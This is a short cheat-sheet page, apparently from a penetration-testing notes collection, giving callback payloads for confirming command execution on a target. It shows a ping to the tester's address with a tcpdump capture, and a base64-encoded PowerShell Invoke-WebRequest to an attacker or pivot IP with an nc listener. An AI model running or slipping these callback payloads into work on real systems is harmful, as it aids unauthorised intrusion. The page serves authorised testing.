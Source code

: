 # Pop Calc & Similar commands

## Ping
```bash
# payload
ping <your_ip_address>

# On the attacker or pivot machine
tcpdump -vvv -A -i <INTERFACE> src <TARGET_IP> and icmp
```

## Powershell execution and connection

* [Reference](/Windows/Misc/Base64_encode_powershell_commands/)

```bash
# Payload
echo -n 'Invoke-WebRequest -Uri "http://<ATTACKER_or_PIVOT_IP>:<LISTENING_PORT>"' | iconv -f UTF8 -t UTF16LE | base64 -w 0
# On the attacker or pivot machine
nc -lnvp <LISTENING_PORT>
```

